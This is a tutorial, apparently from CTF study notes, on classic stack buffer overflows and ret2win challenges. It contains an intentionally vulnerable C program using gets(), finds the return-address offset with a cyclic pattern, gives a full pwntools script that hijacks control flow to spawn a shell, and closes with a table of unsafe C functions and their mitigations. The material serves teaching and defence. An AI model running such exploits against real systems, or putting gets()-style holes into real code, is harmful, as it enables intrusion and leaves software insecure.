

# Buffer Overflow

A buffer overflow happens when an input of the user is able to exceed the buffer limits (bounders). If that happens the user input will overwrite the value that preceed the buffer in the stack (toward higher addresses). An attacker will mostly try to overwrite the function return address, in order to hijack the control flow of the application and perform other actions.



Buffer overflow is the main cause of vulnerabilities that reside in the stack and the presence of a buffer overflow can lead to the execution of techniques that grant the attacker access to a remote shell. We will look at these techniques in the next units. In this note we will concentrate in undestanding and exploiting a classic buffer overflow and ret2win.

## Ret2Win

A ret2win is a challenge in which a function in the binary will provide us the flag: 

```
#include <stdio.h>
#include <stdlib.h>

void win() {
    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
}

void vuln() {
    char name[64];
    printf("Enter your name: ");
    gets(name);
    printf("Hello, %s!\n", name);
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    vuln();
    return 0;
}
```
This challenge is very straightforward. The gets() function will take any amount of input from the user and put it into the variable name. This will permit us to overwrite the return pointer with the address of vuln() function, that will give us the access to a shell. But how can we do so? The challenge is compiled with: 
```
gcc buf.c -o challenge -fno-stack-protector -no-pie -std=gnu89
```

??? note "setvbuf"
    Setvbuf is used in the contest of ctf challenges to disable the Glibc's I/O buffering. This is used to avoid that the data remains in one of the buffers and interact in a wrong (or annoying way) with the solve script

### Pwntools, PwnDBG  & De bruijn sequence

In this tutorial i will use pwndbg as a debugger. In order to check the function address we can use objdump, ida, ghidra ecc...

```
objdump -D challenge | grep win
0000000000400496 <win>:
```

#### Finding the Offset (De Bruijn Sequence)

To hijack the execution flow, we need to determine the exact padding required to reach the saved Return Address (the distance from the start of the vulnerable buffer to the instruction pointer). 

We can calculate this efficiently using a **De Bruijn sequence**—a string composed of unique, non-repeating character patterns.

Using `pwndbg` or `pwntools`, generate a pattern larger than your buffer:
```bash
cyclic 200
```

will generate a string of the format: ```aaaaaaaabaaaaaaacaaaaaaad```
This is useful because gdb can understand the offset by the segmentation fault that the string (overwriting the return pointer) will cause.

*Why this works*:
When you inject this string, it overflows the buffer and overwrites the saved return pointer. Upon exiting the function, the program attempts to jump to the corrupted address (e.g., 0x6161616161616162, which is the hex representation of baaaaaaa) and crashes with a Segmentation Fault.

Because every 8-byte chunk in the sequence is unique, you can take the faulting address or string and pass it back to the cyclic tool to instantly calculate the exact offset:

```
cyclic -l 0x616161616161616a
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

After finding the offset we simply need a padding of offset length and the address of the win function in order to obtain the shell.
The script of the solve is:
```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge")

context.binary = exe
context.terminal = ['ptyxis', '--']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript='''
                    b *vuln+59
                       ''')
            pause()
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()

    OFFSET = 72
    WIN = exe.symbols['win']

    r.recvuntil(b"Enter your name: ")
    r.sendline(b"A" * OFFSET + p64(WIN))

    r.interactive()

if __name__ == "__main__":
    main()
```

### Unbounded functions

The following table outlines the most common vulnerable functions, the specific risks they introduce, and the recommended safer alternatives that enforce boundary limits.

| Vulnerable Function | Description & Risk | Safer Alternative(s) |
| :--- | :--- | :--- |
| `gets()` | Reads a line from `stdin` into a buffer without any length limitation. It stops only at a newline or EOF. 
**Note:** This function is so dangerous it was officially removed in the C11 standard. | `fgets()` |
| `strcpy()` | Copies a source string to a destination buffer until it hits a null terminator, without checking if the destination buffer is large enough to hold it. | `strncpy()`, `strlcpy()`, `strcpy_s()` |
| `strcat()` | Appends a source string to the end of a destination string. It does not check if the remaining space in the destination buffer is sufficient. | `strncat()`, `strlcat()`, `strcat_s()` |
| `sprintf()` | Formats text and writes it to a buffer. It assumes the buffer is infinitely large, overflowing it if the formatted output exceeds the allocated space. | `snprintf()` |
| `scanf()` / `fscanf()` | When used with the `%s` format specifier without an explicit width (e.g., just `%s` instead of `%19s`), it will read characters until a whitespace is encountered, regardless of buffer size. | `fgets()`, or `scanf()` with a strict width specifier (e.g., `%[width]s`) |

### Best Practices for Mitigation

* **Always prefer bounded variants:** Default to using functions that take an explicit size parameter (e.g., the `n` variants like `strncpy`).
* **Validate input size:** Even when using safer functions, logically verify that the incoming data size does not exceed the allocated buffer limits.
* **Use compiler defenses:** Enable stack-smashing protection (e.g., `-fstack-protector` in GCC/Clang) and Address Space Layout Randomization (ASLR) to mitigate the impact if an overflow occurs.